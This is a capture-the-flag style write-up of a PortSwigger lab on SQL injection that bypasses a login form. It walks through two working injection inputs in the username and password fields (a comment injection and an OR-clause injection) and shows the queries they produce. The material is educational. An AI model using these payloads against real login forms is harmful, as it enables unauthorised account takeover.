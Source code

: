 # SQL injection vulnerability allowing login bypass

![Lab banner – PortSwigger Apprentice level](1.png)

---


## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection vulnerability *allowing login bypass*,” we proved that an attacker can sign in as the **administrator** without knowing the password.
The root cause is classic: the application concatenates raw user input into a SQL `WHERE` clause and sends it straight to the database. By injecting a tiny fragment of SQL, we neutralised the password check and gained privileged access.

---

# Description

![Lab banner – PortSwigger Apprentice level](2.png)

---

## Why This Matters to You

* **Total account takeover:** Attackers can jump straight into high-privilege accounts and perform any action those accounts allow.
* **Business-logic defeat:** All downstream controls that rely on authentication (audit trails, personalisation, billing rules, etc.) instantly lose integrity.
* **Reputational & regulatory risk:** Compromised admin accounts often lead to data-privacy breaches and service defacement—both carry hefty legal and PR consequences.

---

## Step-by-Step Walk-Through

| # | What we did (attacker’s input)                                                          | Intended SQL built by the app                                                               | What actually happens & why                                                                                                       |
| - | --------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Baseline login test** — `administrator / xxx`                                         | `SELECT * FROM users WHERE username='administrator' AND password='xxx'`                     | Fails (as expected).                                                                                                              |
| 2 | **Username-field comment injection** — `administrator'--`                               | `SELECT * FROM users WHERE username='administrator'-- ' AND password='xxx'`                 | The `--` turns the rest of the line into a comment, **removing the password check**. We are logged in as admin.                   |
| 3 | **Password-field OR-clause injection (Alternative method)** — password set to `' OR username='administrator` | `SELECT * FROM users WHERE username='whatever' AND password='' OR username='administrator'` | The always-true second condition (`username='administrator'`) is evaluated; the first half can be anything. Admin access granted. |

---

![Lab banner – PortSwigger Apprentice level](3.png)

> *Applying the Username-field comment injection*

---

## Observable Output

| Test                                                | Visible result                         | What it proved                          |
| --------------------------------------------------- | -------------------------------------- | --------------------------------------- |
| Baseline credentials                                | “Login failed”                         | Normal operation.                       |
| Username comment (`administrator'--`)               | Dashboard appears as **administrator** | Password check bypassed.                |
| Password OR clause (`' OR username='administrator`) | Same administrator dashboard           | Alternate vector confirms vulnerability |

---


## Conclusion

A single inline comment (`--`) or `OR` condition was enough to hijack the administrator session. Any real-world system with this flaw would be one click away from a full breach.
